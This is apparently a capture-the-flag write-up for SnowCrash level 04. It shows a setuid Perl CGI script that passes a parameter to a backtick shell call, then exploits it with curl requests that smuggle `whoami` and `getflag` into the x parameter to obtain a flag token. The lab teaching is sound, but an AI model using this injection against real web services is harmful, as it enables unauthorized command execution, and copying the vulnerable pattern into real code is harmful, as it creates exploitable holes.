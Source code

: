 # Level 04

## Vulnerability
Privilege escalation - CGI code injection

## Context
In our home directory, we find a binary ```level04.pl```

## Solution
```
level04@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```
Here we see that when we run this Perl script, we run it with owner flag04 permissions (setuid bit 's'). We don't have the permissions to run getflag directly, but maybe we can get this Perl script to run getflag for us.

Let's investigate the script.
```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747                        ## port hint
use CGI qw{param};                      ## set up a Common Gateway Interface
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;                 ## print the output of the echo command, command substitution (backticks)
}
x(param("x"));                          ## Accept one argument "x"
```
So we should run this script with one argument "x". Lets try an example.
```
level04@SnowCrash:~$ ./level04.pl x="whoami"
whoami
```
If we use backtick notation, we can pass a command and ensure it's run and its output captured and echoed.
```
level04@SnowCrash:~$ ./level04.pl x=`whoami`
level04
```
Lets try running it on port 4747 as suggested.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`whoami`'
flag04
```
Great, now we are executing as flag04. lets try executing getflag.
```
level04@SnowCrash:~$ curl '{VM_IP}:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
